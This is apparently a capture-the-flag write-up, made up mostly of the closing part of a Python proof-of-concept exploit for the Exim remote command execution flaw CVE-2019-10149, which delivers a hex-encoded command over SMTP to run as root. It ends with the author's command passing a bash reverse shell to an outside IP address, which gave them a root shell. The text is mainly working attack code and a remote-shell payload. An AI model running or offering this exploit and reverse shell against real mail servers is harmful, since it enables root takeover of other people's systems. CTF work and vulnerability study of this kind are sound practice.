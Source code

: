 ```python
                        s.recv(1024)
                        s.send("RCPT TO:".encode() + rcpt.encode() + "\r\n".encode())
                        s.recv(1024)
                        s.send("DATA\r\n".encode())
                        s.recv(1024)
                        s.send(message.encode() + "\r\n.\r\n".encode())
                        s.recv(1024)
                        s.send("QUIT\r\n".encode())
                except Exception as e:
                        print("[--] The server is not responding[--]")

        def cmd(self,command,server):
                cmd = []
                for letter in command:
                        c=hex(ord(letter))
                        cmd.append(c)
                        hex_cmd = ''.join(cmd).replace("0x","\\x")
                self.smtp_connect(hex_cmd,server)

if __name__ == '__main__':
        parser = argparse.ArgumentParser(description = "[MNEMO-CERT] - PoC CVE-2019-10149 Exim - Command Execution as root")
        parser.add_argument('-s','--server', help="Exim server IP address and port <IP:Port> - Default: localhost:25")

        requiredArg = parser.add_argument_group("Required argument")
        requiredArg.add_argument('-c','--cmd', help='Type the command you want to execute through Exim')
        args, unknown = parser.parse_known_args()
        if args.server is not None:
                srv = args.server.split(":")
                server = (srv[0],int(srv[1]))
        else:
                server = ("localhost", 25)

        if args.cmd:
                mnemo = exim_rce()
                cmd = args.cmd
                mnemo.cmd(cmd,server)

        else:
                parser.print_help()
                sys.exit(1)
```

I used netcat to get a reverse shell:

```bash
python3 exploit.py -s play.h4ck3r.one:9002 -c "sh -i >& /dev/tcp/193.161.193.99/61477 0>&1"
```

I got a root shell and I found the flag in FLAG.txt in logs.
